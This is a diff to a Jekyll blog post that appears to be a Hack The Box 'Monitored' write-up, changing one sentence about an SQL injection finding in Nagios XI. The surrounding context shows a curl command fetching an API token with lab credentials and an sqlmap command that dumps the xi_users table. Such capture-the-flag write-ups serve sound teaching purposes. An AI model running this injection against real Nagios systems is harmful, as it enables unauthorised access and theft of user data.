

Before and after one commit to alexbsec/alexbsec.github.io, a Jekyll site: the page built from _posts/2024-01-16-monitored-htb.md, in a window 1280 px wide and 900 px high, scrolled down 11478 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_posts/2024-01-16-monitored-htb.md
+++ b/_posts/2024-01-16-monitored-htb.md
@@ -357,7 +357,7 @@
 
 <img src="../figs/monitored7.png" alt="SQLi endpoint request">
 
-Amazing! It seems we might have a SQL injection here. Let's run SQLMap to test it. One thing I noticed though is that the auth_token can only be used once per request. This means we will need a command to pass a different auth_token for every SQLMap request. To do so, we'll use this `curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'` command to clean the output to just be the token itself, and then run SQLMap with `-T xi_users`, which is the table in Nagios XI that contains users information.
+The error message indicates we might have a SQL injection here. Let's run SQLMap to test it. One thing I noticed though is that the auth_token can only be used once per request. This means we will need a command to pass a different auth_token for every SQLMap request. To do so, we'll use this `curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'` command to clean the output to just be the token itself, and then run SQLMap with `-T xi_users`, which is the table in Nagios XI that contains users information.
 
 ```bash
 $ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
````
